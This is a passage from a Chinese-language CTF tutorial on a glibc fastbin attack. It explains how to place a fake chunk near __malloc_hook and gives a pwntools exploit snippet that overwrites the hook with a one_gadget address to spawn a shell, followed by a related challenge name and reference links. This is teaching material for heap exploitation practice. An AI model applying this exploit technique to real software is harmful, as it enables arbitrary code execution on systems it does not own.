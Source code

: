 #### 分配chunk到malloc_hook附近

由于 malloc hook 附近的 chunk 大小为 0x7f，所以数据区域为0x60。这里我们再次申请的时候，对应 fastbin 链表中没有相应大小chunk，所以根据堆分配器规则，它会依次处理unsorted bin中的chunk，将其放入到对应的bin中，之后会再次尝试分配 chunk，因为之前释放的 chunk 比当前申请的 chunk 大，所以可以从其前面分割出来一块。所以 idx2 仍然指向该位置，那么我们可以使用类似的办法先释放申请到的chunk，然后再次修改 fd 指针为 fake chunk 即可。此后我们修改 malloc_hook 处的指针即可得到触发 onegadget。

```Python
# 2. malloc to malloc_hook nearby
# allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
allocate(0x60)
free(4)
# edit idx4's fd point to fake chunk
fake_chunk_addr = main_arena - 0x33
fake_chunk = p64(fake_chunk_addr)
fill(2, len(fake_chunk), fake_chunk)

allocate(0x60)  # idx 4
allocate(0x60)  # idx 6

one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * 'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)
# trigger malloc_hook
allocate(0x100)
p.interactive()
```
同时，这里的 onegadget 地址也可能需要尝试多次。

## 题目

- L-CTF2016–pwn200

## 参考文献

- https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/
- http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html
- https://www.slideshare.net/YOKARO-MON/oreo-hacklu-ctf-2014-65771717

